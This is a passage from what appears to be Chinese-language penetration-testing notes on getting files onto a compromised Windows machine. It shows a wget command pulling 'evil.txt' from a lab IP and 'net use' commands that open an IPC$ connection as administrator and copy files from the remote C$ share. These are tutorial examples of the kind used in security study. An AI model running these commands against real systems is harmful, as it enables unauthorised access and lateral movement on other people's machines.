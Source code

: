 **4、wget**

Windows环境下，可上传免安装的可执行程序wget.exe到目标机器，使用wget下载文件。

wget.exe下载：<https://eternallybored.org/misc/wget/>

```
wget -O "evil.txt" http://192.168.28.128/imag/evil.txt
```

![](./image/20200413-4.png)



**5、ipc$文件共享**

IPC$(Internet Process Connection)是共享"命名管道"的资源，它是为了让进程间通信而开放的命名管道，通过提供可信任的用户名和口令，连接双方可以建立安全的通道并以此通道进行加密数据的交换，从而实现对远程计算机的访问。

~~~
#建立远程IPC连接
net use \\192.168.28.128\ipc$ /user:administrator "abc123!"
#复制远程文件到本地主机
copy \\192.168.28.128\c$\2.txt D:\test
~~~
